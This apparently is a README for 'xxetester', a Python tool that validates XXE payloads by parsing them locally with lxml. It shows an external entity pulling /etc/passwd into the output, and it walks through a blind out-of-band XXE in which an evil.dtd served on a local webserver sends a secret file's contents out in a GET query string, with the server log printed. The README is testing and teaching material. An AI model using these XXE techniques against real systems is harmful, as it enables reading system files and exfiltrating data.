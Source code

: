 xxetester
================

According to OWASP Top 10 of 2010, XXE vulnerabilities are one of the most common vulnerabilities in web applications. It is common to test an application for an XXE vulnerability without getting any feedback whether the exploit is successful. Especially with Blind XXEs it cannot be determined with certainty. The question then arises: Is my payload corrupt or the parser of the application actually secure? 

Since there are a lot of XXE articles and payloads on the internet and not every payload really leads to success, a tool had to be developed to test the validity of an XXE exploit.

**The script parses the XML files on your system. Please be aware of this. DOS attacks like the billion laughs exploit will affect your own system.**

How to use
-------------------------------
The script uses the`lxml`. During development and testing various XML parser libraries were evaluated. Among others `pulldom` also stood out as an interesting choice, because external general entities can be processed optionally. Unfortunately, `pulldom` had difficulties with out-of-band payloads, therefore we switched to `lxml`. To install it you can execute the following command on your shell.

```
# pip3 install lxml
```

To test a payload the following command can be executed.

```
# python3 xxetester.py samples/catalog.xml 
<CATALOG>
<CD>
[...]
<TITLE>Unchain my heart</TITLE>
<ARTIST>Joe Cocker</ARTIST>
<COUNTRY>USA</COUNTRY>
<COMPANY>EMI</COMPANY>
<PRICE>8.20</PRICE>
<YEAR>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
</YEAR>
</CD>
</CATALOG>
```
The `samples/catalog.xml` file contains a external entity reference to the local `/etc/passwd` file. We can see the included `passwd` file in the command line output. The file is included by the by parsing and processing the XML.

## Out-of-band XXE
Blind XXEs in particular are based on the fact that the application does not give the user any output at all. As an attacker you can only see if the application connects to your server. The `samples` folder contains an out-of-bands payload to read files from a system for testing purposes. The idea is that the processed XML contains a external entity reference to a DTD file which is stored on a webserver of the attacker. While parsing the user supplied XML the parser resolves also the external entities of the DTD. This in turn can give an attacker the possibility to send file content of a local stored file via GET request argument to the attacker.


We simply execute the following commands to move the `secret` file into the `/tmp/` directory. This file represents the file that an attacker tries to access with the XXE. **Note that with the following payload we can only read files with a single line. The `secret` file contains only one line.** Then we change the directory to `samples`. In this directory is the `evil.dtd` file. This file will be loaded by the `oobxxe.xml` later on. Then we start a webserver on port 8090. 
```
# mv samples/secret /tmp/secret
# cd samples
# python3 -m http.server 8090
```
In a new terminal we execute the following command. 
```
# python3 xxetester.py samples/oobxxe.xml
StartTag: invalid element name, line 1, column 2 (127.0.0.1:8090?collect=1337SECRET1337, line 1)
If you wish more info execute this script with --verbose flag
```
With this command we can test the payload in `oobxxe.xml` which reads the `evil.dtd`. This .dtd file specifies the file that should be read and sent as an argument in a GET request. In our case `/tmp/secret` will be read and sent to our webserver.

Altough the script exits with an exception we see the following output on our webserver.
```
127.0.0.1 - - [05/Sep/2020 21:21:27] "GET /evil.dtd HTTP/1.0" 200 -
127.0.0.1 - - [05/Sep/2020 21:21:27] "GET /?collect=1337SECRET1337 HTTP/1.0" 200 -
```
With the first request the `evil.dtd` file is accessed. In the second GET request, the collect argument contains the contents of the `/tmp/secret` file.
